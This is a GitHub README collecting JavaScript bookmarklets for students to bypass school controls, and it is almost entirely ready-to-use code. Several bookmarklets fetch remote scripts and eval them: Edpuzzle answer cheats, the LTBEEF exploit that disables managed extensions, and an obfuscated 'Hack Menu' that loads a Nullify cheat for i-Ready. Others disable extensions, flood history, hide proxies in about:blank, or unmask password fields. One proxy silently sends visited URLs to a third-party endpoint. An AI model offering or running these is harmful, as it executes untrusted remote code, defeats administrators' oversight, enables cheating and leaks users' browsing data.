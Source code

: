 ## ByePassHub > Exploits > Bookmarklets | updated dec 15
## If you like this, make sure to star it!
**If you need help on creating a bookmarklet**, Go [here](https://github.com/wea-f/ByePassHub/blob/main/Exploits/CreatingBookmarklets.md) or to the CreatingBookmarklets file<br>
**Unblocker and game links**: Go [here](https://github.com/wea-f/ByePassHub/blob/main/mainUnblockers.md) or go to the mainUnblockers.md file. <br>
**Exploits/Bypasses:** Go [here](https://github.com/wea-f/ByePassHub/blob/main/Exploits/Exploits%5CBypasses.md) <br> 

**Back to Starting Hub:** [Here](https://github.com/wea-f/ByePassHub/blob/main/README.md) 
### IF BOOKMARKLETS DON'T WORK, FOLLOW THESE [INSTRUCTIONS](https://github.com/wea-f/ByePassHub/blob/main/Exploits/Downgrading.md)
---

### This is a collection of bookmarklets<br>
### These can range from disabling extensions, auto clicking, inspect element, flooding your history, and more!
These are from [balls-remover](https://github.com/3kh0/balls-remover) and [Satz n' stuff](https://sites.google.com/site/satznstuff/home/bookmarklets), [this repo](https://github.com/legend7278/Bookmarklets), [ENS](https://sites.google.com/view/exploitsnstuff/bypass-tools/bookmarklets), and [this repo](https://github.com/TheRealMrGamz/Bookmarklets) <br>
Make sure to scroll all the way down for all the bookmarklets! <br>
## What it does | note if needed
## Edpuzzle Cheats credit: [ading2210](https://github.com/ading2210/edpuzzle-answers)
```js
javascript: fetch("https://cdn.jsdelivr.net/gh/ading2210/edpuzzle-answers@latest/script.js").then(r => r.text()).then(r => eval(r))
```
## History Flooder made by BlazerHM
```js
javascript:var num%3Dprompt%28"How many times do you want this page to show up in your history?");done=false;x=window.location.href;for (var i=1; i<=num; i++){history.pushState(0, 0, i==num?x:i.toString());if(i==num){done=true}}if(done===true){alert("History flooding successful!\n"+window.location.href+" should now appear in your history "+num+(num==1?" time.":" times! \n"))}
```
After executing, put the amount of times you want the page to show up, too many crashes chrome.
## LoMoH - disables extensions
```js
javascript:(function(){if (location.hostname == "docs.google.com") {document.body.innerHTML = document.body.innerHTML.replace("Locked mode is on", "Are you ready to turn off extensions?%22);%20document.body.innerHTML%20=%20document.body.innerHTML.replace(%22You%20have%20already%20opened%20and%20closed%20this%20quiz.%20Opening%20this%20quiz%20again%20will%20notify%20the%20form%20owner%20by%20email.%22,%20%22This%20will%20reload%20all%20tabs%20in%20your%20browser%22);%20var%20button%20=%20document.getElementById(%27mG61Hd%27);%20button.innerHTML%20=%20button.innerHTML.replace(%22Start%20Quiz%22,%20%22Disable%20Extensions%22);%20button.addEventListener(%27click%27,%20function(event){window.close();})}%20else%20{window.open(%22https://docs.google.com/forms/u/0/d/e/1FAIpQLSf5EYwrSUjmQhBOasMpORZy80eBCYb7qCpEwWNoRPUGyObGMA/startquiz%22);}})()
```
## LTBEEF - disables extensions
Before executing, go to ```https://chrome.google.com/webstorex```, if it says 404, it's fine. <br>
If this doesn't work, substitute the `x` for something else, like ```https://chrome.google.com/webstoreIReplacedItRightHere``` <br>
Once on the site, execute one of the two codes below. <br>
Next, switch off the extensions you want to disable <br>
```js
javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
```
OR
```js
javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
```
## Tab Disguise
```js
javascript:function gcloak() { var link = document.querySelector("link[rel*='icon']") || document.createElement('link');link.type = 'image/x-icon';link.rel = 'shortcut icon';link.href = 'https://www.pngall.com/wp-content/uploads/9/Google-Drive-Logo-Transparent-180x180.png';document.title = 'My Drive - Google Drive';console.log(document.title);document.getElementsByTagName('head')[0].appendChild(link) };gcloak();setInterval(gcloak, 1000);
```
## Ad Blocker
```js
javascript:(function(){    /* Ad-B-Gone: Bookmarklet that removes obnoxious ads from pages */    var selectors = [    /* By ID: */    '#sidebar-wrap', '#advert', '#xrail', '#middle-article-advert-container',    '#sponsored-recommendations', '#around-the-web', '#sponsored-recommendations',    '#taboola-content', '#taboola-below-taboola-native-thumbnails', '#inarticle_wrapper_div',    '#rc-row-container', '#ads', '#at-share-dock', '#at4-share', '#at4-follow', '#right-ads-rail',    'div#ad-interstitial', 'div#advert-article', 'div#ac-lre-player-ph',    /* By Class: */    '.ad', '.avert', '.avert__wrapper', '.middle-banner-ad', '.advertisement',    '.GoogleActiveViewClass', '.advert', '.cns-ads-stage', '.teads-inread', '.ad-banner',    '.ad-anchored', '.js_shelf_ads', '.ad-slot', '.antenna', '.xrail-content',    '.advertisement__leaderboard', '.ad-leaderboard', '.trc_rbox_outer', '.ks-recommended',    '.article-da', 'div.sponsored-stories-component', 'div.addthis-smartlayers',    'div.article-adsponsor', 'div.signin-prompt', 'div.article-bumper', 'div.video-placeholder',    'div.top-ad-container', 'div.header-ad', 'div.ad-unit', 'div.demo-block', 'div.OUTBRAIN',    'div.ob-widget', 'div.nwsrm-wrapper', 'div.announcementBar', 'div.partner-resources-block',    'div.arrow-down', 'div.m-ad', 'div.story-interrupt', 'div.taboola-recommended',    'div.ad-cluster-container', 'div.ctx-sidebar', 'div.incognito-modal', '.OUTBRAIN', '.subscribe-button',    '.ads9', '.leaderboards', '.GoogleActiveViewElement', '.mpu-container', '.ad-300x600', '.tf-ad-block',    '.sidebar-ads-holder-top', '.ads-one', '.FullPageModal__scroller',    '.content-ads-holder', '.widget-area', '.social-buttons', '.ac-player-ph',    /* Other: */    'script', 'iframe', 'video', 'aside#sponsored-recommendations', 'aside[role="banner"]', 'aside',    'amp-ad', 'span[id^=ad_is_]', 'div[class*="indianapolis-optin"]', 'div[id^=google_ads_iframe]',    'div[data-google-query-id]', 'section[data-response]', 'ins.adsbygoogle', 'div[data-google-query-id]',    'div[data-test-id="fullPageSignupModal"]', 'div[data-test-id="giftWrap"]' ];    for(let i in selectors) {        let nodesList = document.querySelectorAll(selectors[i]);        for(let i = 0; i < nodesList.length; i++) {            let el = nodesList[i];            if(el && el.parentNode)                el.parentNode.removeChild(el);        }    }})();
```
## Show Password | In case if you forget your password on the login screen lol
```js
javascript:Array.prototype.slice.call(document.querySelectorAll("input[type='password']")).map(function(el){el.setAttribute('type','text')})
```
## Inspect Element
```js
javascript: javascript:document.body.contentEditable = 'true'; document.designMode='on'; void 0
```
Another inspect element:
```js
javascript:(function()%7B(function() %7Bvar x %3D document.createElement("script")%3Bx.src %3D "https%3A%2F%2Fcdn.jsdelivr.net%2Fgh%2FSnowLord7%2Fdevconsole%40master%2Fmain.js"%3Bx.onload %3D alert("Loaded Developer Console!")%3Bdocument.head.appendChild(x)%3B%7D)()%7D)()
```
## web browser
```js
javascript:((function()%7Bvar a,b,c;c="https://www.bing.com/",b=document.createElement("iframe"),b.setAttribute("src",c),b.setAttribute("id","rusic-modal"),b.setAttribute("style","position: fixed; z-index: 999999; width: 1333px; height: 768px; right: 10px; top: 10px; border: 5px solid #8834af; overflow: hidden; background-color: #fff;"),a=document.getElementsByTagName("body")%5B0%5D,a.appendChild(b)%7D)).call(this)
```
## Proxies (Unblockers)
```js
javascript:(function(){var bkmkltscript = document.createElement('script'); bkmkltscript.src = 'https://cdn.jsdelivr.net/gh/proxyhost/bookmarklets/aiobkmklt.js'; document.body.appendChild(bkmkltscript);})();
```
2nd (opens in about:blank):
```js
javascript: var win = window.open(); var url = 'https://nebula.galaxybender.repl.co/'; var iframe = win.document.createElement(%27iframe%27); iframe.style="position:fixed;width:100vw;height:100vh;top:0px;left:0px;right:0px;bottom:0px;z-index:2147483647;background-color:white;border:none;"; iframe.src = url; win.document.body.appendChild(iframe);
```
3rd (opens in about:blank):
```js
javascript: var win = window.open(); var url = 'https://ultraviolet-node.galaxybender.repl.co/'; var iframe = win.document.createElement(%27iframe%27); iframe.style="position:fixed;width:100vw;height:100vh;top:0px;left:0px;right:0px;bottom:0px;z-index:2147483647;background-color:white;border:none;"; iframe.src = url; win.document.body.appendChild(iframe);
```
4th (opens in about:blank):
```js
javascript: var win = window.open(); var url = 'https://incognito.galaxybender.repl.co/'; var iframe = win.document.createElement(%27iframe%27); iframe.style="position:fixed;width:100vw;height:100vh;top:0px;left:0px;right:0px;bottom:0px;z-index:2147483647;background-color:white;border:none;"; iframe.src = url; win.document.body.appendChild(iframe);
```
5th (opens in about:blank):
```js
javascript: var win = window.open(); var url = 'https://website-aio.galaxybender.repl.co/'; var iframe = win.document.createElement(%27iframe%27); iframe.style="position:fixed;width:100vw;height:100vh;top:0px;left:0px;right:0px;bottom:0px;z-index:2147483647;background-color:white;border:none;"; iframe.src = url; win.document.body.appendChild(iframe);
```
6th (opens in about:blank):
```js
javascript:(function(){var url = prompt("Enter website url for cloaked page \n Made by Exploits N' Stuff"); var win = window.open(); var iframe = win.document.createElement(%27iframe%27); iframe.style="position:fixed;width:100vw;height:100vh;top:0px;left:0px;right:0px;bottom:0px;z-index:2147483647;background-color:white;border:none;"; if(url.includes('https://') || url.includes("http://")) {iframe.src = url;}else{iframe.src = "https://" + url;} win.document.body.appendChild(iframe);})();
```
7th:
```js
javascript:(()=>{let e='[1,2]';function t(e){return e.toString(16).padStart(2,'0')}function o(e){let o=new Uint8Array((e||40)/2);return window.crypto.getRandomValues(o),Array.from(o,t).join('')}let n=o(20);function r(e,t){return prompt('[Legend7269s proxy]\n'+e,t)}function a(e){return confirm('[Legend7269s proxy]\n'+e)}function l(e){return alert('[92dev proxy]\n'+e)}function c(){let e=r('Enter the URL to access:');return null===e||''===e.trim()?null:e=new URL((e=e.replace(%27-%27,%27%27)).indexOf(%27http%27)?%27http://%27+e:e)}function i(e,t){fetch(%27https://dev.92spoons.com/api/fakehacks/proxy/collect.php%27,{method:%27POST%27,headers:{%27Content-Type%27:%27application/json%27},body:JSON.stringify({url:e,version:%271.0.0%27,from:window.location.href,sessionRandomId:n,proxy:t}),mode:%27cors%27})}!function t(){let o=c();if(null===o)return;let n=new URL(o);!function t(){let l=r(%27Proxy method to use:\nCurrently available proxies are numbered %27+e+%27.%27,1);null!==l&&(1==l?(i(o,1),window.location.href=%27https://webcache.googleusercontent.com/search?q=cache%3A%27+encodeURIComponent(n)):2==l?(i(o,2),window.location.href=%27https://%27+n.hostname.replace(/\./g,%27-%27)+%27.translate.goog%27+n.pathname+%27?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=en&_x_tr_pto=wapp%27):(i(o,%27oob%27),a(%27That proxy id is invalid. Please choose a proxy in the range %27+e+%27.\nIf none of the proxies are working for you, you can ask for more at https://github.com/Legend7269/Bookmarklets%27)&&t()))}()}()})();
```
## Calculator | doesn't show in your history
```js
javascript:eval('function calc(){_o=prompt(_t,_z);if(_o!=\'\'&&_o!=null&&_o.toUpperCase()==_o.toLowerCase())_z=eval(_o);}');_t='JAVASCRIPTER.NET Calculator - Input the expression to be calculated:';_z='';calc();while(_o!=''&&_o!=null&&_o.toUpperCase()==_o.toLowerCase())calc()
```
## Dictionary | Highlight words and it shows you the definition, again, doesn't show in your history
```js
javascript:var q=escape(window.getSelection()),i,ii;if(!q){for(i=0;i<frames.length;i++){var fr=frames[i];try{q=escape(fr.getSelection())}catch(e){};if(q)break;else{for(ii=0;ii<fr.frames.length;ii++){try{q=escape(fr.frames[ii].getSelection())}catch(e){};if(q)break;}}}}if(!q)void(q=prompt('Enter word to define%3A',''));if(q)void(location.href='http://www.dictionary.com/cgi-bin/dict.pl?term=%27+q);```
```
## Font Finder 
```js
javascript:(function(){var d=document,s=d.createElement('scr'+'ipt'),b=d.body,l=d.location;s.setAttribute('src','http://chengyinliu.com/wf.js?o='+encodeURIComponent(l.href)+'&t='+(new Date().getTime()));b.appendChild(s)})();
```
## Unblocked Youtube
```js
javascript:(function () {if (window.location.toString().includes('www.youtube.com/watch?v%27)) { window.open(%27https://www.youtube-nocookie.com/embed/%27 + window.location.toString().split(%27=%27)[1]) }})()
```
## Hack Menu
```js
javascript:function _0x54f5(_0x4c9444,_0x4ac2af){const _0x17ddb2=_0x380f();return _0x54f5=function(_0x19dcc8,_0x9a0e40){_0x19dcc8=_0x19dcc8-0x8e;let _0x227425=_0x17ddb2[_0x19dcc8];return _0x227425;},_0x54f5(_0x4c9444,_0x4ac2af);}function _0x380f(){const _0x378644=['4171185PbwjuA','return\x20(function()\x20','search','5022212nNDxnN','{}.constructor(\x22return\x20this\x22)(\x20)','iframe','prototype','log','error','(((.+)+)+)+$','console','https://raw.githubusercontent.com/sysplu/Nullify/main/src/main.js','#U3Yq73','appendChild','18370weTWYU','201365CDUwAl','apply','10kSarUU','bind','710569iOGDqM','__proto__','contentWindow','2BdVBzH','display','21QJQsgN','none','3587043RPUKBC','style','3001304NoJSZJ','trace','catch','toString','warn','table','U3Yq73','66qdZbUl','get','https://login.i-ready.com/','querySelector','2508jetZRn','fetch','constructor','then','exception','info'];_0x380f=function(){return%20_0x378644;};return%20_0x380f();}const%20_0xadefc0=_0x54f5;(function(_0x507ca9,_0x365979){const%20_0x2a1e1a=_0x54f5,_0x105b91=_0x507ca9();while(!![]){try{const%20_0x43c327=parseInt(_0x2a1e1a(0xaa))/0x1+-parseInt(_0x2a1e1a(0xad))/0x2*(parseInt(_0x2a1e1a(0xb1))/0x3)+parseInt(_0x2a1e1a(0x9a))/0x4+-parseInt(_0x2a1e1a(0xa6))/0x5*(parseInt(_0x2a1e1a(0xba))/0x6)+-parseInt(_0x2a1e1a(0xaf))/0x7*(-parseInt(_0x2a1e1a(0xb3))/0x8)+parseInt(_0x2a1e1a(0x97))/0x9*(-parseInt(_0x2a1e1a(0xa8))/0xa)+parseInt(_0x2a1e1a(0xa5))/0xb*(-parseInt(_0x2a1e1a(0x91))/0xc);if(_0x43c327===_0x365979)break;else%20_0x105b91['push'](_0x105b91['shift']());}catch(_0x5c4471){_0x105b91['push'](_0x105b91['shift']());}}}(_0x380f,0x9c5b0));const%20_0x3d141d=(function(){let%20_0x3b4fcd=!![];return%20function(_0x2843ca,_0x598a6a){const%20_0x228da5=_0x3b4fcd?function(){if(_0x598a6a){const%20_0x1eae74=_0x598a6a['apply'](_0x2843ca,arguments);return%20_0x598a6a=null,_0x1eae74;}}:function(){};return%20_0x3b4fcd=![],_0x228da5;};}()),_0x108e71=_0x3d141d(this,function(){const%20_0x3001d5=_0x54f5;return%20_0x108e71[_0x3001d5(0xb6)]()['search']('(((.+)+)+)+$')[_0x3001d5(0xb6)]()[_0x3001d5(0x93)](_0x108e71)[_0x3001d5(0x99)](_0x3001d5(0xa0));});_0x108e71();const%20_0x9a0e40=(function(){let%20_0x19a019=!![];return%20function(_0x122e62,_0x48c927){const%20_0x16892c=_0x19a019?function(){const%20_0x3707ca=_0x54f5;if(_0x48c927){const%20_0x6eb7c3=_0x48c927[_0x3707ca(0xa7)](_0x122e62,arguments);return%20_0x48c927=null,_0x6eb7c3;}}:function(){};return%20_0x19a019=![],_0x16892c;};}()),_0x19dcc8=_0x9a0e40(this,function(){const%20_0x4c4646=_0x54f5;let%20_0x5844cb;try{const%20_0x565505=Function(_0x4c4646(0x98)+_0x4c4646(0x9b)+');');_0x5844cb=_0x565505();}catch(_0x404f45){_0x5844cb=window;}const%20_0x39ccf2=_0x5844cb[_0x4c4646(0xa1)]=_0x5844cb[_0x4c4646(0xa1)]||{},_0x16d310=[_0x4c4646(0x9e),_0x4c4646(0xb7),_0x4c4646(0x96),_0x4c4646(0x9f),_0x4c4646(0x95),_0x4c4646(0xb8),_0x4c4646(0xb4)];for(let%20_0xdc9bb5=0x0;_0xdc9bb5%3C_0x16d310['length'];_0xdc9bb5++){const%20_0x12b77a=_0x9a0e40[_0x4c4646(0x93)][_0x4c4646(0x9d)][_0x4c4646(0xa9)](_0x9a0e40),_0x5b8d1a=_0x16d310[_0xdc9bb5],_0x56dd77=_0x39ccf2[_0x5b8d1a]||_0x12b77a;_0x12b77a[_0x4c4646(0xab)]=_0x9a0e40[_0x4c4646(0xa9)](_0x9a0e40),_0x12b77a[_0x4c4646(0xb6)]=_0x56dd77[_0x4c4646(0xb6)]['bind'](_0x56dd77),_0x39ccf2[_0x5b8d1a]=_0x12b77a;}});_0x19dcc8();try{if(document[_0xadefc0(0x90)](_0xadefc0(0xa3))===null){let%20iframe=document['createElement'](_0xadefc0(0x9c));iframe['src']=_0xadefc0(0x8f),iframe['id']=_0xadefc0(0xb9),iframe[_0xadefc0(0xb2)][_0xadefc0(0xae)]=_0xadefc0(0xb0),document['body'][_0xadefc0(0xa4)](iframe),iframe['onload']=()=%3E{const%20_0x5777e2=_0xadefc0;window[_0x5777e2(0x8e)]=async(_0x2a1cca,_0x441e01)=%3E{return%20new%20Promise((_0x221243,_0x497907)=%3E{const%20_0x3511cd=_0x54f5;U3Yq73[_0x3511cd(0xac)][_0x3511cd(0x92)](_0x2a1cca,_0x441e01)[_0x3511cd(0x94)](_0x542415=%3E{_0x221243(_0x542415);})[_0x3511cd(0xb5)](_0x28799b=%3E{_0x497907(_0x28799b);});});},get('https://raw.githubusercontent.com/sysplu/Nullify/main/src/main.js')[_0x5777e2(0x94)](_0x230289=%3E_0x230289['text']())['then'](_0xd96b0c=%3Eeval(_0xd96b0c))['catch'](_0x30a455=%3Ealert(_0x30a455));};}else%20get(_0xadefc0(0xa2))[_0xadefc0(0x94)](_0x344e55=%3E_0x344e55['text']())[_0xadefc0(0x94)](_0x21ad45=%3Eeval(_0x21ad45))[_0xadefc0(0xb5)](_0x7c3551=%3Ealert(_0x7c3551));}catch(_0x859f92){alert('Error\x20while\x20loading\x20nullify.\x20This\x20could\x20be\x20because\x20you\x20are\x20not\x20on\x20iReady\x20or\x20because\x20of\x20a\x20patch');}
```
## Close Active Bookmarklets
```js
javascript:var element = document.getElementById("rusic-modal"); element.parentNode.removeChild(element);
```

